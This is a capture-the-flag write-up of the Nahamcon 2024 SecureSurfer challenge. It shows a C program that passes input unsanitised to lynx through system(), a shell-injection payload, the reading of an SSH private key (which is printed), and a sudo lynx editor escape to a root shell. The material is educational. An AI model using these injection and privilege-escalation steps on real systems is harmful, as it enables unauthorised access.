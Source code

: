 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | SecureSurfer Writeup
desc: Check out our writeup for SecureSurfer for Nahamcon 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: misc
challenge: SecureSurfer
tags: "misc, twh, rce, lpe, privesc"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```



> Solved by : thewhiteh4t


- we are provided with SSH access and a C source code file
- it is a simple C program which contains some cases and a `surf` function
- surf function passes our input without much input validation to `lynx` a console based browser tool
- 5 options have predefined inputs but in 6th option we can provide our input

```c
    case 6:
                    {
                        char url[1024];
                        printf("Online URL: ");
                        fflush(stdout); 
                        fgets(url, sizeof(url), stdin);
                        url[strcspn(url, "\n")] = 0; // Remove newline character
    
                        if (strstr(url, "https://") == NULL) {
                            printf("\nWe are secure here at the SecureSurfer! You must use https:// !\n");
                        } else {
                            surf(url);
                        }
                    }


    void surf(const char *url) {
        char command[512];
        sprintf(command, "/usr/local/bin/lynx --accept_all_cookies -cache=0 -restrictions=all '%s'", url);
        system(command);
        system("stty sane");
    }
```

- only requirement is that our input should contain `https://`
- we can inject commands through our input by using `$()` and single quotes :

```
'$(id)'#https://
```

![](https://i.imgur.com/65qrdco.png)

- so we have command injection, kind of
- now let’s try to drop to a shell : 


![](https://i.imgur.com/VxLvFJH.png)

- we did get a shell but command output is blank, maybe due to how lynx works or some other reason but we can still explore and home dir of `securesurfer` contains a `.ssh` directory, so we can try to look for `id_rsa`


```
securesurfer@securesurfer:~$ cat .ssh/
authorized_keys  id_ecdsa         id_ecdsa.pub
```

- fortunately with lynx we can read files directly!

```
'$(~/.ssh/id_ecdsa)'#https://
```

```
-----BEGIN EC PRIVATE KEY-----
MHcCAQEEIIDx0ks2B22N69cy8Vyy2VrNPDdhYTQlKWdVFdanIvydoAoGCCqGSM49
AwEHoUQDQgAEJEgkMpKgbm52oJfCbDLXvX1b3ZWE6j+P5tOdrBH5n/aaRwwZqZtp
7C82/VWBuq6RkSRFspGSlqsgJNG4RHQIRA==
-----END EC PRIVATE KEY-----
```

- now we can directly login and skip the browser on login

```
chmod 600 id_ecdsa
ssh -p 31252 securesurfer@challenge.nahamcon.com -i id_ecdsa
```

![](https://i.imgur.com/NxkhvyI.png)



- after looking into lynx for sometime I came across a useful option : 

```
-editor=EDITOR    enable edit mode with specified editor
```

- on the target box `vi` was available so we can run lynx with sudo and vi as our editor and drop into edit mode and try to launch a bash shell
- we also need a local file for the editor

```
touch a
sudo lynx -editor=vi a
```

- after getting inside lynx we need to press `e` to launch edit mode where `vi` takes over
- and now we can simply use the following to get a shell : 

```
:!/bin/bash
```

![](https://i.imgur.com/gKgA9Cc.png)
